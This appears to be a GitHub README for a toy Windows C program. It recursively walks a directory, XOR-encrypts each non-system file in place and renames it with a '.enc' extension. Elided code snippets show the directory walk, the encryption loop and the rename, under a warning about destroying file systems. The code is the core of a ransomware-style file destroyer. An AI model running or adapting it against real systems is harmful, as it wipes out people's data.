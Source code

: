 # Simple Recursive File Encryption

**Disclaimer**:  
*This program has the potential to destroy an entire file-system if*  
*you go around aimlessly messing around with the code. Be careful and*  
*don't use it for any malicious activities.*  

This program uses the Windows API's **FindFirstFile** function in order to  
recursively walk a directory and located non-system files. The files are then  
encrypted using a trivial xor encryption technique.
```
(...)

GetFullPathName(dir_path, MAX_PATH, abs_dir_path, NULL);
snprintf(wildcard, sizeof(wildcard), "%s/*", abs_dir_path);

if ((fHandle = FindFirstFile(wildcard, &findData)) == INVALID_HANDLE_VALUE)
{
    return;
}

(...)
```

Once the target file is found, the program begins to xor encrypt the file.
```
(...)

file_size = fread(contents, sizeof(char), file_size, fp);
rewind(fp);

char* tmp = contents;
for (unsigned i = 0; i < file_size; tmp++, i++)
{
    size_t length = strlen(encyption_key);
    *tmp ^= encyption_key[i % length];
}

fwrite(contents, 1, file_size, fp);

(...)
```

The files are then renamed to additionally have the *.enc* extension to signify  
that they are in fact encrypted.
```
(...)

size_t size = sizeof(char) * (strlen(file) + 5);
char* new_file = (char *)malloc(size);

memset(new_file, 0, size);
snprintf(new_file, size, "%s.enc", file);

rename(file, new_file);
free(new_file);

(...)
```
